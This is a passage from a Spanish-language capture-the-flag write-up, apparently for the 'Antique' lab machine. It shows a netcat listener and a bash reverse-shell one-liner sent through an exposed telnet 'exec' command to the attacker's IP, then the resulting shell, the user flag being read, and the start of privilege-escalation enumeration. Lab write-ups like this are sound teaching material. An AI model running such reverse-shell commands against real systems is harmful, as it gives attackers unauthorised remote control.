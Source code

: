>deleterawport: <TCP port num>
>listrawport: (No parameter required)
>exec: execute system commands (exec id)
>exit: quit from telnet session
>```

Cuando tenemos acceso se puede utilizar bash para ejecutar una conexion de shell reversa, previo a esto, establecemos una conexion en modo escucha utilizando el servicio nc

>```bat
> sudo nc -nlvp 1104
> listening on [any] 1104 ...
>```
Con el servicio de nc listo, establecemos la conexion utilizando una bash interactiva que apunte al equipo atacante y el puerto abierto
>```bat 
> exec bash -c "bash -i >& /dev/tcp/10.10.16.5/1104 0>&1"
>```
##### Resultado de la shell reversa
>```python
>listening on [any] 1104 ...
>connect to [10.10.16.5] from (UNKNOWN) [10.10.11.107] 48646
>bash: cannot set terminal process group (1002): Inappropriate ioctl for device
>bash: no job control in this shell
>lp@antique:~$ 
>```
Una vez ganado acceso se pude obtener información del archivo user.txt como resultado de la primera flag.
>```bash
>lp@antique:~$ ls -la 
>total 16
>drwxr-xr-x 2 lp   lp   4096 Sep 27  2021 .
>drwxr-xr-x 6 root root 4096 May 14  2021 ..
>lrwxrwxrwx 1 lp   lp      9 May 14  2021 .bash_history -> /dev/null
>-rwxr-xr-x 1 lp   lp   1959 Sep 27  2021 telnet.py
>-rw------- 2 lp   lp     33 Aug  9 03:48 user.txt
>lp@antique:~$ cat user.txt 
>3483068056ab2689c8be47c31ba3e694
>lp@antique:~$ 
>```

## Elevación de privilegios

Cuando ganamos acceso podemos verificar si hay algun tipo de servicio corriento internamente, y este se puede buscar con la herramienta netsat
>```bash
>lp@antique:~$ netstat -putona
>(Not all processes could be identified, non-owned process info
>will not be shown, you would have to be root to see it all.)
>Active Internet connections (servers and established)
>Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name     Timer
>tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      1037/python3         off (0.00/0/0)
>tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
>tcp        0      0 10.10.11.107:23         10.10.16.5:60458        ESTABLISHED 1037/python3         off (0.00/0/0)
>tcp        0    292 10.10.11.107:57896      10.10.16.5:1104         ESTABLISHED 1174/bash            on (0.30/0/0)
>tcp6       0      0 ::1:631                 :::*                    LISTEN      -                    off (0.00/0/0)
>udp        0      0 10.10.11.107:50917      8.8.8.8:53              ESTABLISHED -                    off (0.00/0/0)